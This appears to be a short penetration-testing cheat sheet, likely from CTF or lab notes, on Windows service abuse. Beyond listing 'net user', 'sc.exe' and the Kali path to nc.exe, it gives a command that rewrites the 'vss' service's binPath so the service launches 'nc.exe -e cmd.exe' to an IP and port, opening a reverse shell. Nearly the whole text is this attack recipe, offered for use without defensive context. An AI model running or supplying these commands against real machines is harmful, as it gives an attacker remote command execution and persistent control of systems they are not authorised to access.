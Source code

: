 # Windows Specific

#### User Details
```
net user username
```

### Service Control

```
sc.exe
```

### Reverse shell exe

```
/usr/share/windows-resources/binaries/nc.exe
```
#### Example: Modify a Service "vss" to run a custom exe

##### Forces the vss service to run a reverse shell to IP on PORT

```
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe IP PORT"
```
